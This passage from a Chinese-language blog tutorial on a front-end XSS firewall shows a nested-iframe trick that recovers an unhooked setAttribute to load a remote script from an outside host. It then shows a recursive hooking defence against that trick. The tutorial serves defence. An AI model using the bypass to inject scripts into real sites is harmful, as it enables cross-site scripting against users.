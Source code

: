 
完美！对话框成功弹出来了！即使从框架页里反射出新环境，仍然带有我们的钩子程序。

不过，貌似还漏了些什么。要是从框架页里再套框架页，我们就杯具了：

```js
// 创建框架页
var frm = document.createElement('iframe');
document.body.appendChild(frm);

// 创建框架页的框架页
var doc = frm.contentDocument;
var frm2 = doc.createElement('iframe');
doc.body.appendChild(frm2);

// 反射接口
var raw_fn = frm2.contentWindow.Element.prototype.setAttribute;

// 创建脚本
var el = document.createElement('script');
raw_fn.call(el, 'SRC', 'http://www.etherdream.com/xss/alert.js');
document.body.appendChild(el);
```
[Run](http://jsfiddle.net/zjcqoo/MGBVP/)

![](http://fex.baidu.com/img/xss-frontend-firewall-3/img/xss-frontend-firewall-3/frame_nest.png)

前面说了，每个页面环境是独立的，主页面是捕捉不到子页面里的事件的。所以，框架页里创建元素，我们完全不知道。

怎么破？这还不简单，索性给框架页也绑上 DOMNodeInserted 事件，不就可以层层监控了吗。无论框架的几次方，都逃不过我们的火眼金睛了。

```js
// 我们防御系统
(function() {
	function installHook(window) {
		// 保存上级接口
		var raw_fn = window.Element.prototype.setAttribute;

		// 勾住当前接口
		window.Element.prototype.setAttribute = function(name, value) {
			// 试试
			alert(name);

			// 向上调用
			raw_fn.apply(this, arguments);
		};

		// 监控当前环境的元素
		window.document.addEventListener('DOMNodeInserted', function(e) {
			var element = e.target;

			// 给框架里环境也装个钩子
			if (element.tagName == 'IFRAME') {
				installHook(element.contentWindow);
			}
		}, true);
	}

	// 先保护当前页面
	installHook(window);
})();
```
[Run](http://jsfiddle.net/zjcqoo/FbZdv/)

